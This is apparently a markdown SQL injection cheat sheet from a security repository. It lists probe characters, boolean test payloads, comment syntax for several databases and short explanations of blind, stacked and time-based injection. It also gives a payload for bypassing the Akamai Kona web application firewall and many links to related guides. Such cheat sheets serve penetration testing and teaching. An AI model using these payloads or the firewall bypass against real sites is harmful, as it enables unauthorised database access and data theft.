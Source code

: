 # SQL Injection

## Entry point detection
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

## Entry point detection by Confirming with logical operations
```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

## Comments
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

## All Kind of SQL Injection 
   - **Boolean-Based Blind**
   
we can manipulate the behavior of the sort depending on internal data. For example: if the admin username starts with an ‘a’ we sort the IDs in the query ASC (ascending) if not we sort them DESC (descending). This allows one to enumerate every single character of the username by just looking at the sort direction of the output.

   - **Stacked Queries**

we might add our own queries to the query. This one is tricky and quite dangerous. We are allowed to extend the query with new queries. This might allow one to [delete database](https://stackoverflow.com/questions/12403662/how-to-remove-all-mysql-tables-from-the-command-line-without-drop-database-permi) content, start [reverse shells](https://security.stackexchange.com/questions/6919/leveraging-a-shell-from-sql-injection) or easily create time based SQL attacks (more about that below) in order to retrieve data.

   - **Time-Based Blind**

most databases support the SLEEP() function. A function that pauses the execution of the query for a certain amount of seconds. We can use this to ex filtrate data by measuring the time it takes for the server to send a reply back. For example if the current database username of the server starts with a X we trigger a sleep for 2 seconds, if it starts with a Z a sleep for 4 seconds, etc. Repeat this for every position in the string and you can easily reconstruct the full username by looking at the response times of the request.

## Akamai Kona Bypass 
   - `MID` instead of `SUBSTRING`
   - `LIKE` instead of `=`
   - `/--/` instead of a `space`
   - `CURRENT_USER` instead of `CURRENT_USER()`
   - ` "` instead of `'`

Final example: 

```sql
444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#
```

## Blogs
   - http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/
   - http://isc.sans.edu/diary.html?storyid=9397
   - http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/
   - http://xd-blog.com.ar/descargas/manuales/bugs/full-mssql-injection-pwnage.html
   - http://securityoverride.com/articles.php?article_id=1&article=The_Complete_Guide_to_SQL_Injections
   - http://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/
   - http://sqlzoo.net/hack/
   - http://www.sqlteam.com/article/sql-server-versions
   - http://www.krazl.com/blog/?p=3
   - http://www.owasp.org/index.php/Testing_for_MS_Access
   - http://web.archive.org/web/20101112061524/http://seclists.org/pen-test/2003/May/0074.html
   - http://web.archive.org/web/20080822123152/http://www.webapptest.org/ms-access-sql-injection-cheat-sheet-EN.html
   - http://www.youtube.com/watch?v=WkHkryIoLD0
   - http://layerone.info/archives/2009/Joe%20McCray%20-%20Advanced%20SQL%20Injection%20-%20L1%202009.pdf
   - http://vimeo.com/3418947
   - http://sla.ckers.org/forum/read.php?24,33903
   - http://websec.files.wordpress.com/2010/11/sqli2.pdf
   - http://old.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/
   - http://ha.ckers.org/sqlinjection/
   - http://lab.mediaservice.net/notes_more.php?id=MSSQL

## Reference
   - https://medium.com/@jonathanbouman/blind-sql-injection-at-fasteditor-hema-com-6ac140c0d1a3
